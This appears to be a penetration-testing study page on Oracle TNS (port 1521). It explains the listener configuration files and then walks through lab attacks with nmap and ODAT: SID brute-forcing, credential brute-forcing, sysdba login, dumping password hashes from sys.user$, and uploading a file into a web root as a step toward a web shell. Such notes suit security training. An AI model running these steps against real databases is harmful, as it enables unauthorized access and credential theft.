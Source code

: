 ```yaml
---
description: Transport Network Substrate
---
```


# (1521)Oracle TNS

## About

The Oracle Transparent Network Substrate (TNS) is a communication protocol **designed to facilitate interactions between Oracle databases and applications over networks**. Initially introduced as part of the Oracle Net Services suite, it supports various networking protocols, such as IPX/SPX and TCP/IP, making it a preferred choice for managing large, complex databases in industries like healthcare, finance, and retail. Its built-in encryption ensures secure data transmission, making it ideal for enterprise environments with high data security needs.

Over time, TNS has evolved to support newer technologies like IPv6 and SSL/TLS encryption, further enhancing its functionality. These updates make TNS suitable for tasks such as:

* Name resolution
* Connection management
* Load balancing
* Security enhancement

TNS adds an extra layer of encryption between client-server communication over the TCP/IP protocol, helping secure databases from unauthorized access and network traffic attacks. Additionally, it offers advanced tools for database administrators and developers, including performance monitoring, error reporting, workload management, and fault tolerance through database services.

### Default Configuration

{% hint style="warning" %}
You should know that the listening port can be changed during installation.&#x20;
{% endhint %}

By default and depending on the version, the TNS listener includes certain security features like a default password, allows connection from the only authorized hosts, perform basic authentication, uses Oracle Net Services to encrypt communication between the client and server.

The configuration files for Oracle TNS are called `tnsnames.ora` and `listener.ora` .

### tnsnames.ora

Each database or service has a unique entry in the [tnsnames.ora](https://docs.oracle.com/cd/E11882\_01/network.112/e10835/tnsnames.htm#NETRF007) file, containing the necessary information for clients to connect to the service. The entry consists of a name for the service, the network location of the service, and the database or service name that clients should use when connecting to the service.&#x20;

* **Client-side configuration**.
* Defines the network service names and connection details used by clients to connect to Oracle databases.
* Maps human-readable service names to network addresses (e.g., database name, protocol, host, port).
* Used by clients to locate and connect to the appropriate Oracle database instance.

For example, a simple `tnsnames.ora` file might look like this:

```txt
ORCL =  <- Service name
  (DESCRIPTION =
    (ADDRESS_LIST =
      (ADDRESS = (PROTOCOL = TCP)(HOST = 10.129.11.102)(PORT = 1521)) <- IP+Port to connect to
    )
    (CONNECT_DATA =
      (SERVER = DEDICATED)
      (SERVICE_NAME = orcl) <- clients should use the name orcl when connecting to the service.
    )
  )
```

### listener.ora

The `listener.ora` file is a server-side configuration file that specifies the properties and parameters of the listener process, which handles incoming client requests and routes them to the correct Oracle database instance.

* **Server-side configuration**.
* Specifies the settings for the Oracle listener, a process that receives incoming client connection requests.
* Defines the listener's protocol addresses (e.g., TCP/IP, port) and the Oracle database instances it services.
* Controls how client requests are routed to the appropriate database instance.



```txt
SID_LIST_LISTENER =
  (SID_LIST =
    (SID_DESC =
      (SID_NAME = PDB1)
      (ORACLE_HOME = C:\oracle\product\19.0.0\dbhome_1)
      (GLOBAL_DBNAME = PDB1)
      (SID_DIRECTORY_LIST =
        (SID_DIRECTORY =
          (DIRECTORY_TYPE = TNS_ADMIN)
          (DIRECTORY = C:\oracle\product\19.0.0\dbhome_1\network\admin)
        )
      )
    )
  )

LISTENER =
  (DESCRIPTION_LIST =
    (DESCRIPTION =
      (ADDRESS = (PROTOCOL = TCP)(HOST = orcl.inlanefreight.htb)(PORT = 1521))
      (ADDRESS = (PROTOCOL = IPC)(KEY = EXTPROC1521))
    )
  )

ADR_BASE_LISTENER = C:\oracle
```

> In short, the client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses, while the listener process uses the `listener.ora` file to determine the services it should listen to and the behavior of the listener.

## Footprinting

Before installation, we should install dependencies using this bash script:

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

```shell-session
$ ./odat.py -h
```

### Nmap

```shell-session
$ sudo nmap -p1521 -sV <TARGET> --open
```

To connect to a database in ODBMS we will need a System Identifier (SID) which is the unique name to identify the database. So intuitively, not providing the correct SID will lead the connection to fail. So we need an SID which we will obtain using a bruteforcing tool (nmap, odat, hydra ..etc)

{% hint style="info" %}
Although calling Nmap a bruteforcing isn't technically correct, but we will using that feature.
{% endhint %}

### SID Bruteforcing

#### Nmap

```shell-session
$ sudo nmap -p1521 -sV <TARGET> --open --script oracle-sid-brute
```

#### odat.py

```shell-session
$ ./odat.py all -s <TARGET>

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...

...SNIP...
```

{% hint style="success" %}
Upon finding correct credentials, we're able to connect to the database.
{% endhint %}

### Interacting with the server

```shell-session
$ sqlplus username/password@TARGET/SID
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory 

$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

With a bit of  [SQLplus commands](https://docs.oracle.com/cd/E11882\_01/server.112/e41085/sqlqraa001.htm#SQLQR985) we can move around and footprint the databases.

```sql
SQL> select table_name from all_tables;
SQL> select * from <tablename>;
```

We can try to connect as an administrator from the obtained usernames above:

```shell-session
$ sqlplus scott/tiger@10.129.204.235/XE as sysdba 
```

If this works we can enumerate further:

```sql
SQL> select * from user_role_privs;
```

#### Password hashes retrieval

```sql
SQL> select name, password from sys.user$;
```

{% hint style="info" %}
Another approach consists of uploading a web shell only if the server is running a webserver and we know its [root directory](../../../introduction-and-getting-started/shells-and-ssh/setting-up-shells.md#id-3.-web-shells). Here's how it goes:

First, we try to inject a non malicious file to see if it goes through IDS/IPS systems or Antiviruses and then test if the injection was successful.

```shell-session
$ ./odat.py utlfile -s <TARGET> -d XE -U username -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
$ curl -X GET http://10.129.204.235/testing.txt
```
{% endhint %}
